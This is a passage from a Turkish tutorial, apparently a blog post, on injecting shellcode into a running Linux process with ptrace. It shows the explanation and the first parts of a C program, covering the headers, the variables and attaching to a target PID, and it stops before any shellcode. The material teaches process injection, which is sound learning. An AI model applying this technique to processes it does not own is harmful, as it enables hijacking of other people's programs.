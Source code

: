 Daha en başından sizi sıkmamak ve anlaşılmasının kolay olması açısından process kontrolünü ele geçirdiğimizde kodu *Instruction Pointer*’a enjekte edeceğiz. Ayrıca enjekte ettiğimiz kod Basit bir şekilde shell çağrısında bulunan ufak bir shellcode olacağından Orijinal Process’e kontrolü geri vermemiz mümkün değil. Yani daha basit bir deyişle program shellcode a yönlendiği için programın Bir kısmı yok olacak , ama bu şu anda bizim için o kadarda önemli değil.

Evet Artık Process 'e nasıl **Shellcode** enjekte edebileceğimizi anladığınıza göre Scriptimizi yazmaya başlayabiliriz. Kodu Doğrudan vermektense size bölüm bölüm açıklamayı tercih ettim.

***Kütüpanelerimizi ekliyoruz :***

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>

#include <sys/user.h>
#include <sys/reg.h>

```

***Main Fonksiyonu Oluşturup değişkenlerimizi tanımlıyoruz :***

```
int
main (int argc, char *argv[])
{
  pid_t                   target;
  struct user_regs_struct regs;
  int                     syscall;
  long                    dst;
  
```



***Bu Bölümde ise ,***

```
if (argc != 2)
    {
      fprintf (stderr, "Usage:\n\t%s pid\n", argv[0]);
      exit (1);
    }
  target = atoi (argv[1]);
  printf ("+ Tracing process %d\n", target);
  if ((ptrace (PTRACE_ATTACH, target, NULL, NULL)) < 0)
    {
      perror ("ptrace(ATTACH):");
      exit (1);
    }
  printf ("+ Waiting for process...\n");
  wait (NULL);
```
